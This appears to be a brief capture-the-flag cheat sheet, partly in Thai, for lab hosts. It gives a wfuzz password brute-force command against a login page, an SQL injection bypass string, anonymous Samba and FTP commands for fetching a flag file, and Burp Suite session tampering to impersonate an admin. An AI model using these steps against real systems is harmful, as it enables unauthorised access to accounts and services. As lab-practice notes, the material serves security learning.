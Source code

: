 #web 
# Bruteforce
## Word List
rockyou.txt
## Wfuzz
### Command
```bash
sudo wfuzz -z file,/home/drasogun/Desktop/password/password.txt -d "username=admin%40dropctf.live&password=FUZZ&login_user=" --hh 0  http://172.18.0.9/login_db.php
```
### Tool
burtsuite เพื่อเอา data ที่ต้องใช้ในคำสั่ง
# Bypass
## SQL Injection
’ OR '1'='1
## Bypass Authentication
Sign in User ที่มีอยู่แล้วเพื่อทับข้อมูลเดิม แล้ว Login User นั้น
# Anonymous Login
## Samba
### Command
```bash
smbclient -L 172.18.0.64
```
```bash
smbclient \\\\172.18.0.64\\public
```
```bash
get flag.txt
```
## FTP
### Command
```bash
ftp 172.18.0.64  (user&password = anonymous)
```
```bash
passive on
```
```bash
get flag.txt
```
# Session Management
## Step
1. Login
2. Burp suit ปลอมแปลง session ตอน login (user=daftpunk → user=admin)